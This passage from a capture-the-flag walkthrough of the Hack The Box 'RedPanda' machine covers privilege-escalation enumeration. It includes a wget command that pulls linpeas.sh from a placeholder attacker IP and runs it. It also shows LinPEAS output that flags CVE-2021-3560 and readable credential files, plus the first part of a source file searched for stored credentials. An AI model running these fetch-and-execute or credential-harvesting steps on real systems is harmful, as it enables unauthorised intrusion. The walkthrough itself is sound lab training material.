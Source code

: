 ```bash
woodenk@redpanda $
```

#### Scan for privilege escalations

Attacker:

	python3 -m http.server 80

Victim:

	wget <attacker_ip>/linpeas.sh
	chmod +x linpeas.sh
	./linpeas.sh

```shell-session
<...SNIP...>
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                                                                                                             
Sudo version 1.8.31                                                                                                                                                                                                                         

╔══════════╣ CVEs Check
Vulnerable to CVE-2021-3560

root         /usr/sbin/cron -f
root            /usr/sbin/CRON -f
root                /bin/sh -c sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
root                    sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
woodenk                     java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar

╔══════════╣ Unexpected in root
/credits

╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rw-r----- 1 root logs 422 Jun 21 12:31 /credits/damian_creds.xml                                                                                                                                                                           
-rw-r----- 1 root logs 426 Aug 28 22:30 /credits/woodenk_creds.xml
-rw-r----- 1 root woodenk 33 Aug 28 22:15 /home/woodenk/user.txt
<...SNIP...>
```

#### Find stored credentials (MainController.java)

	cat /opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java

```java
package com.panda_search.htb.panda_search;

import java.util.ArrayList;
import java.io.IOException;
import java.sql.*;
import java.util.List;
import java.util.ArrayList;
import java.io.File;
import java.io.InputStream;
import java.io.FileInputStream;

import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.GetMapping;
```